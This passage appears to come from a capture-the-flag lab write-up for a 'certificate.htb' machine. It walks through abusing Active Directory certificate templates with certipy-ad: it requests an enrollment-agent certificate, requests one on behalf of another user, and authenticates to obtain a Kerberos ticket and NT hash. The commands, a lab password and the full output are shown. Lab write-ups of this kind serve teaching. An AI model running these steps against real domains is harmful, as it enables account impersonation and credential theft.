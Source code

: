 ```
```

With these let's take note of the following:
`Certificate Authority` - `Certificate-LTD-CA`
`Certificate Template` - `Delegated-CRA`

Let's grab a certificate for `Lion.SK`
```bash
certipy-ad req -u "lion.sk@certificate.htb" -p '!QAZ2wsx' -dc-ip "10.129.238.176" -target "dc01.certificate.htb" -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
Certipy v5.0.2 - by Oliver Lyak (ly4k) 
[*] Requesting certificate via RPC 
[*] Request ID is 32 
[*] Successfully requested certificate 
[*] Got certificate with UPN 'Lion.SK@certificate.htb' 
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115' 
[*] Saving certificate and private key to 'lion.sk.pfx' 
[*] Wrote certificate and private key to 'lion.sk.pfx'
```

Next let's grab a certificate for `Ryan`, however the current template work work so let's use `SignedUsers` instead.
```bash
certipy-ad req -u lion.sk -p '!QAZ2wsx' -pfx 'lion.sk.pfx' -dc-ip "10.129.238.176" -target "dc01.certificate.htb" -ca 'Certificate-LTD-CA' -template 'SignedUser' -on-behalf-of 'certificate\ryan.k' -out 'ryan.k.pfx'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 49
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'
```

> The reason it wouldn't work with the current template is because there's a policy preventing us from requesting the certificate without it being signed.

And let's authenticate!
```bash
certipy-ad auth -pfx ryan.k.pfx -domain certificate.htb -dc-ip 10.129.238.176
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6
```
